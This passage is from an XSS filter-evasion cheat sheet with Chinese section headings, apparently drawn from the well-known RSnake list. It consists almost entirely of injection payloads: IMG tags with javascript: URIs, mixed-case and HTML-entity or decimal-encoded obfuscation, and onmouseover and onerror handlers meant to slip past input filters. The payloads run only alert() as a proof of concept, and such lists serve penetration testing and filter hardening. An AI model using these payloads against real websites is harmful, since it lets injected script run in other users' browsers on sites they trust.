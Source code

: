 ~~~
<IMG SRC=javascript:alert('XSS')>
~~~

#### 利用大小写回避检查

~~~
<IMG SRC=JaVaScRiPt:alert('XSS')>
~~~


#### HTML entities 转移单引号

~~~
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
~~~


#### \` 尖号混淆

~~~
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
~~~


### 回避 SRC 检查

~~~
<IMG SRC=# onmouseover="alert('xxs')">
~~~

~~~
<IMG SRC= onmouseover="alert('xxs')">
~~~

~~~
<IMG onmouseover="alert('xxs')">
~~~


### On error alert

~~~
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
~~~

#### IMG onerror and javascript alert encode

~~~
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
~~~

#### Decimal HTML character references

all of the XSS examples that use a javascript: directive inside of an \<IMG tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode). 

~~~
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>
~~~
